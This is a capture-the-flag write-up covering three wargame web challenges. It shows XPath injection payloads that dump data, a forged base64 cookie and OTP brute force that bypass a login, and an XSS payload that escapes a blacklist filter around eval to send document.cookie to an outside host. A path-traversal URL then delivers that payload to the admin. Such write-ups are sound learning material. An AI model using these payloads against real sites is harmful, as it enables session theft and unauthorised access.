


## Path to Pro

It was a bit tricky challenge.

admin has given the hint in the IRC channel itself that the title is the hint.
First I found out that the SQL Injection works to the pass or user param.

```
REQUEST: http://challenges.wargame.vn/100-path-to-pro_548f20feaa3736e0c7320fc5e5b14a8c/?name=guest&pass=1%22+or+1+and+%221
RESULT:
nothing, flag is not here ;)
Maybe if you login as 'admin' you will find my secret
```

However, I found something weird; only substring() function worked and nothing else were working.
After searching the problem for hours, I later found out that the login runs with xpath checks.

```
REQUEST: http://challenges.wargame.vn/100-path-to-pro_548f20feaa3736e0c7320fc5e5b14a8c/?name=guest&pass=-1%22+or+count(//user/child::node())=5+and+%221
RESULT:
nothing, flag is not here ;)
Maybe if you login as 'admin' you will find my secret
```

after using some xpath injections, I successfully got the flag with a decent path listing.

```
REQUEST:http://challenges.wargame.vn/100-path-to-pro_548f20feaa3736e0c7320fc5e5b14a8c/?name=guest&pass=1%22]%20|%20//*%20|//*[%221%22=%221
REQUEST:


nothing, flag is not here ;)


Maybe if you login as 'admin' you will find my secret


0x3004{XXXpath}
```

flag: `0x3004{XXXpath}`


--

## XYZ BANK

I found out that the cookie has credentials.

```
document.cookie
credential="WyJndWVzdCIsICJndWVzdCIsICIxMjM0Il0="
```

so if I decrypt the base64 string,
```
atob("WyJndWVzdCIsICJndWVzdCIsICIxMjM0Il0=")
'["guest", "guest", "1234"]'
```

It becomes `["guest", "guest", "1234"]`, which I can now assume that the cookie is a json.

as I go through further, I found out that it redirects to the page if I write True, but it gives credential error with true.

Considering that I can bypass the username, 
I have successfully bypassed password verification after trying out several codes from errors that I've got.

```
document.cookie='credential="'+btoa('["guest",True,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Redirects)

..

document.cookie='credential="'+btoa('["guest",1,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Wrong credentials)

..


document.cookie='credential="'+btoa('["guest",False,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Redirects)

..

document.cookie='credential="'+btoa('["guest",0,1234]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(info page)
```

So, I can now access admin by bruteforcing the OTP!

```
document.cookie='credential="'+btoa('["admin",0,0001]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(Wrong credentials)

..

document.cookie='credential="'+btoa('["admin",0,7331]')+'"';
document.location.href="http://challenges.wargame.vn:50003/";
(info page)
```



Flag is: `Good boy! 0x3004{goooo_home_homie}`

--

## XYZ TEMPLATE

If I login as guest/guest, we find a page with template input textboxes.
Above that, we also see a feedback form to write out few details.

I also have decrypted username and password for cookies.
```
document.cookie
"username=guest; password=guest"
```

I can now conclude that this question is obviously about XSS, since this is a website with html input available with sending stuff to admin.
Anyways, we firstly input the default values in the input box and submit.

```
HTML: (default)
PARAMS: (default)
http://challenges.wargame.vn:50004/template/41845810235ae981f0f8ed2d80580e7a)
```

Let's have a look at the sourcecode of the template page.

```
    setTimeout(function(){
		var html = document.getElementById('html').value;
		var params = (function(){
			var obj = JSON.parse(document.getElementById('params').value);
			return obj;
		})();
		console.dir(params);
		var render_tmpl = new tmpl(html,params);
		document.getElementById('result').innerHTML = render_tmpl.render();
	},300);

  function tmpl(content,params){
    String.prototype.header = function(){
      return "[header]"+this.toString()+"[/header]"
    }
    this.content = content;
    this.params = params || {};
    this.anti_xss = function(input){
      return input.toString()
            .replace(/&/g,'&amp;')
            .replace(/</g,'&lt;')
            .replace(/>/g,'&gt;')
            .replace(/'/g,'&#39;')
            .replace(/"/g,'&quot;')
    }
    this.filter_blacklist = function(input){
      var blacklist = /this|document|window|object|function|top|parent|eval|script|alert|prompt/gi
      // hm...
      return input.replace(blacklist,"..")
    }
    this.render = function(params){
      this.params = params || this.params;
      while(x = /<%=([\w\.\(\)]+)%>/g.exec(this.content)){
        eval("var p = this.params."+this.filter_blacklist(x[1]));
        this.content = this.content.replace(x[0],p);
      }
      return this.anti_xss(this.content)
          .replace(/\n/g,"<br />")
          .replace('[header]','<div class="page-header"><h1>')
          .replace('[/header]','</h1></div>'); // newline to br
    };
  }
```

...?
Yes!!
there is nothing to talk about it further. we see that the code has eval() function.
However, it has all these blacklisted stuff, and all I know now is that the injection has to be done with asp-like tags.

By searching some functions for while, I found out that the constructor method can be called which will eventually load the function.

If we input this and check the console log for testing:

```
HTML: <%=title.header.constructor(console.log(1))()%>
PARAM: (default)
=> http://challenges.wargame.vn:50004/template/a1e1ce29099ba4dbe3b4f168bae6bd62
```

I get the value "1" from console log. This assures that there is a vulnerability for XSS.
As we go further, I realize that the filters can be bypassed after the ASP-like tags.

so if I use some string functions like `substr` or `indexOf`, we can call javascript stuff within the constructor.

so if we input this for xss stuff:
```
HTML: <%=lol.header.constructor(html.value.substr(52))()%>document.location.href='http://stypr.com/xss.pl?xss='+document.cookie;
PARAM: {"lol":"penthackon"}
=> http://challenges.wargame.vn:50004/template/5656b0f5e5f86f9b23c1c2d7c517370e
```

it comes 404 page but it has been redirected to my website with the cookies on it.


Now, it's the feedback one.
they ask the Debug URL for any problem, but if we put
```
http://challenges.wargame.vn:50004/debug/5656b0f5e5f86f9b23c1c2d7c517370e
```

this won't work from server-side because this will only output as text file.

so, if we bypass using LFI methods we can successfully send the template page with the xss on it:
```
http://challenges.wargame.vn:50004/debug/areyouserious/../../template/5656b0f5e5f86f9b23c1c2d7c517370e
```



